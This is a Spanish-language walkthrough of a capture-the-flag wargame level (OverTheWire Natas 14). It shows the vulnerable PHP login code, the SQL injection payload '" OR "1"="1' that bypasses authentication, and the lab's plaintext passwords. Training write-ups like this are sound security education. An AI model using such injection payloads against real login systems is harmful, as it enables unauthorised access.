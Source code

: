 #Natas Level 13 → Level 14

Username: natas14

URL:      http://natas14.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas14.natas.labs.overthewire.org** 
- **Usuario    : natas14**
- **Contraseña : Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1**

La contraseña la hemos sacado del nivel anterior.

Accedemos a la página y nos muestra unos campos en el que tenemos que meter un **usuario** y **contraseña**

En principio parece un reto de **SQL Injection**

Vamos a ver el código fuente de la página:

```php
<body> 
<h1>natas14</h1> 
<div id="content"> 
<? 
if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas14', '<censored>'); 
    mysql_select_db('natas14', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { 
            echo "Successful login! The password for natas15 is <censored><br>"; 
    } else { 
            echo "Access denied!<br>"; 
    } 
    mysql_close($link); 
} else { 
?> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
Password: <input name="password"><br> 
<input type="submit" value="Login" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body>
```

Analizando el código podemos observar como:

- Se realiza una conexión a una base de datos **Mysql** 
- Con el usuario : **natas14**
- Selecciona la base de datos **natas14**
- Para consultar el **Usuario** y **Contraseña** que hemos introducido con el valor de la **Base de Datos** o **BBDD**

Probamos si los campos de **usuario** y **contraseña** son **injectables** a código **SQL**

Solamente viendo el código, sabemos que utiliza **concatenación** de strings que ya nos indica un posible fallo de seguridad:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
```
Probamos si los parámentros son injectable y ver si nos da algún error

```html
Warning: mysql_num_rows() expects parameter 1 to be resource, boolean given in /var/www/natas/natas14/index.php on line 24
```

En el ejemplo anterior he puesto ** natas14" **, el **usuario** + ** " ** (comilla doble) como argumento en el campo **username** y nos ha salido error.

Con esto ya sabemos que es injectable a código **SQL** así que ahora nos toca trastear con la **$query** de arriba para que nos devuelva la contraseña

Vamos a analizar la **$query**

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
```

Sabemos que el usuario tiene que ser **natas15** pero no sabemos cual es la contraseña de ese usuario.

Tenemos que conseguir que este campo sea **True** para hacer un **bypass** y así obtener la contraseña:

```sql
and password=\"".$_REQUEST["password"]."\"";    <- Tiene que ser = True
```

Como ya sabemos algo de **SQL** (y sino lo aprendemos :smile:) tenemos que pasarle al campo **$_REQUEST["password"]** el valor:

```sql
" OR "1"="1
```

Para que la consulta completa quede de la siguiente manera:

```sql
and password="" OR "1"="1";
```

La consulta anterior mirará si algunos de los dos valores nos devuelve un **True**. 

En este caso **1=1** nos devuelve **True** por lo que ignora **password=''** y hace la consulta completa con el usuario **natas15**

```sql
$query = "SELECT * from users where username="natas15" and  password="" OR "1"="1"; "; 
```

Vamos al formulario de la página anterior y ponemos eso valores:

```html
Usuario: natas15
Password: " OR "1"="1 
```

Pulsamos el botón de enviar y nos muestra un mensaje de **Successful login!** :smile: :beers:

```html
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

**FLAG** = {AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J}












